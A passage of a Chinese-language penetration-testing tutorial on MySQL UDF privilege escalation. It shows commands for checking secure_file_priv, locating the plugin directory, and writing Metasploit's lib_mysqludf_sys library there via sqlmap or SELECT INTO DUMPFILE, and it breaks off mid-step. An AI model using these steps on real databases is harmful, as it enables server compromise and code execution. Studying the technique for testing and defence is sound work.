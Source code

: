 > [https://www.sqlsec.com/2020/11/mysql.html#CVE-2012-2122](https://www.sqlsec.com/2020/11/mysql.html#CVE-2012-2122)
> 

自定义函数，是数据库功能的一种扩展。用户通􏰁自定义函数可以实现在 MySQL 中无法方便实现的功能，其添加的新函数都可以在 SQL 语句中调用，就像调用本机函数 `version()`等方便

1. 前提secure_file_priv需要等于空或者等于插件目录
    
    ```sql
    SHOW VARIABLES LIKE "secure_file_priv";
    ```
    
2. **动态链接库**
    
    如果是 `MySQL >= 5.1` 的版本，必须把 UDF 的动态链接库文件放置于 MySQL 安装目录下的 lib\plugin 文件夹下文件夹下才能创建自定义函数
    
    动态链接库可以在`metasploit`获取
    
    ```sql
    MSF 根目录/embedded/framework/data/exploits/mysql
    //
    lib_mysqludf_sys_32.dll
    lib_mysqludf_sys_32.so  
    lib_mysqludf_sys_64.dll  
    lib_mysqludf_sys_64.so
    ```
    
3. 寻找插件目录
    
    ```sql
    mysql> show variables like '%plugin%';
    +---------------+-----------------------+
    | Variable_name | Value                 |
    +---------------+-----------------------+
    | plugin_dir    | /usr/lib/mysql/plugin |
    +---------------+-----------------------+
    ```
    
    如果不存在的话可以在 `webshell`中找到 MySQL 的安装目录然后手工创建 `\lib\plugin` 文件夹
    
4. 写入**动态链接库**
    
    SQL 注入且是高权限，plugin 目录可写且需要 `secure_file_priv` 无限制，MySQL 插件目录可以被 MySQL 用户写入，这个时候就可以直接使用 sqlmap 来上传动态链接库
    
    ```sql
    sqlmap -u "http://localhost:30008/" --data="id=1" --file-write="/Users/sec/Desktop/lib_mysqludf_sys_64.so" --file-dest="/usr/lib/mysql/plugin/udf.so"
    ```
    
    不过一般都是手工写文件到 plugin 目录下的
    
    ```sql
    # 直接 SELECT 查询十六进制写入
    SELECT 0x7f454c4602... INTO DUMPFILE '/usr/lib/mysql/plugin/udf.so';
    